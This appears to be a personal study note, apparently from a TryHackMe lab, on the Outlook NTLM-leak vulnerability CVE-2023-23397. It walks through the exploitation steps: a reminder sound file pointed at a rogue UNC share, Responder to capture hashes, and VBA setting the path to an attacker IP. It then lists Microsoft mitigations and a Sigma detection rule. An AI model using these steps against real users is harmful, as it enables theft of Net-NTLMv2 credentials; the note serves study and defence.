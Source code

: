 # CVE-2023-23397

CVE-2023-23397 is critical vulnerability affecting all versions of Outlook Desktop application on any Windows system vulnerability. It is a Zero-click exploit so once an malicious email is recieved attackers can obtain Net-NTLMv2 credential hashes.

14/3/2023 - fixed 

- Outlook Appointment Alerts
- Make an appointment
	- `Select -> Calander icon`
	- New Appointment
- Select a malicious file
	- `Appointment Tab -> Reminder (drop-down) -> Sound...`
	- Point this to a file on a Rogue network share.
	- Outlook will:
		- Reference selected file with `PidLidReminderFileParameter`
		- Set `PidLidReminderOverride` to `true` 
		- Attacker can specify a `UNC (Universal Naming Convention` instead a local file - `\\$IP\Path\File.bad`
			- `responder -I ens5` with [[Responder-Cheatsheet]]
		- This process will begin a NTLM authentication process, leaking Net-NTLMv2 credential hashes
- If `UNC` path cannot be set use `OutlookSpy` 
	- `New Appointment -> OutlookSpy -> CurrentItem -> Properties (tab) -> ReminderSoundFile` 
	- With the `Script` we can use some [[Useful-Visual-Basic]]:
		- `Run` to set changes
```vb
AppointmentItem.ReminderOverrideDefault = true
AppointmentItem.ReminderPlaySound = true
AppointmentItem.ReminderSoundFile = "\\$badip\$path\$file.bad"
```

#### Exploits

- [Oddvar Moe Exploit](https://github.com/api0cradle) 

#### Detection and Mitigation

 [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-23397) official mitigation and avoidance guidance:
- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.
- Microsoft released a Powershell script: [CVE-2023-23397.ps1](https://microsoft.github.io/CSS-Exchange/Security/CVE-2023-23397/) to audit and clean detected items.

[THM Room Outlook NTLM leak](https://tryhackme.com/room/outlookntlmleak) provides both [[Sigma]] and [[Yara]] rules 
```yaml
title: CVE-2023-23397 Exploitation Attempt
id: 73c59189-6a6d-4b9f-a748-8f6f9bbed75c
status: experimental
description: Detects outlook initiating connection to a WebDAV or SMB share, which
  could be a sign of CVE-2023-23397 exploitation.
author: Robert Lee @quantum_cookie
date: 2023/03/16
references:
- https://www.trustedsec.com/blog/critical-outlook-vulnerability-in-depth-technical-analysis-and-recommendations-cve-2023-23397/
tags:
- attack.credential_access
- attack.initial_access
```
